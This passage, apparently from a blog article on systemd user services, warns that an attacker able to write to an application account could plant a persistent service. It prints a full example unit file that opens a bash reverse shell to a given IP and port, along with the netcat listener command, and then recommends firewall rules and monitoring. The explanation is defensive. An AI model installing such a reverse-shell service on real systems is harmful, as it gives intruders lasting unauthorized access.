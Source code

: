 All of the above assumes that access to your application account is controlled. However, what if an application is insecure and it’s somehow possible for an attacker to write to the filesystem as that account? Well, if they can indeed do that, it’s possible to see that they might install a malicious service such as a reverse SSH shell. Here’s what this might look like:

```bash
[myapp@rhel8 ~] cat /home/myapp/.config/systemd/user/malicious.service
[Unit]
Description=Malicious service

[Service]
ExecStart=/usr/bin/bash -c 'bash -i >& /dev/tcp/192.168.1.142/9888 0>&1'
Restart=always
RestartSec=60

[Install]
WantedBy=default.target
```

The ‘restart’ feature of systemd will mean that the shell continuously tries to reach out to the attacker at 192.168.1.142 on port 9888. And worst of all, this type of attack will persist through reboots (remember, we normally want legitimate services to start on boot!). All the user on 192.168.1.142 needs to do is run nc -l -v 192.168.1.142 9888 and a remote shell will be opened up with access to the myapp account. For further advice on mitigating reverse shells, take a look at Understanding Reverse Shells. Consider using a local firewall rules that prevents new outbound connections from being made to unknown destinations.

Don’t let the above dissuade you from using user services. A vulnerable application is always a risk, and any user that has access to a server might be able to manually start reverse shells. Local security policy, sensible firewall controls and monitoring of your environment mitigates against this.

## Useful links

You may find you are not able to control a systemd user service if you log into the server as one user, and then switch to another account via ‘sudo’. If so, take a read through **[How to execute “systemctl –user” as a different user](https://access.redhat.com/solutions/4661741)**.

Privileged users such as root (or those in the wheel group) are unable to manage systemd user instances directly. An RFE has been raised for this, see:

Bugzilla 1795555 – Provide a way for privileged users to interact with systemd user instances
systemctl -M <user@.host> VERB should work
Similarly, if you want to control user services through Cockpit, you’ll need to await the following RFE:

Bug 1792270 – [RFE] Display “User Services” tab in Services panel
list user services

## Summary

systemd user services are really awesome! They allow users to take advantage of the benefits of systemd and control how their applications are run. An application team can define dependencies and startup ordering using their own user accounts without fear of impacting the O/S system services. It can help loosen the friction between support teams and allow applications to be written, deployed and managed without requiring root access.

Post navigation
